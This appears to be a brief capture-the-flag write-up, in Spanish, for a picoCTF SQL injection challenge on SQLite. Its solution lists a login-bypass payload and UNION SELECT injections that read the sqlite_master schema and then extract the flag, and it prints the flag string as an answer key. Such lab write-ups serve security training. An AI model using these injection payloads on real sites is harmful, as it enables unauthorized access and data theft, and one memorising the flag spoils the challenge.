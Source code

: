 Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

Hints:
- SQLiLite


## Solución
Primero hay que ingresar con `' OR 1=1;--`. Luego en el campo de búsqueda, hacer `UNION SELECT 1, 2, sql FROM sqlite_master;--`
Luego `UNION SELECT 1, 2, flag FROM more_table;--`

`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}`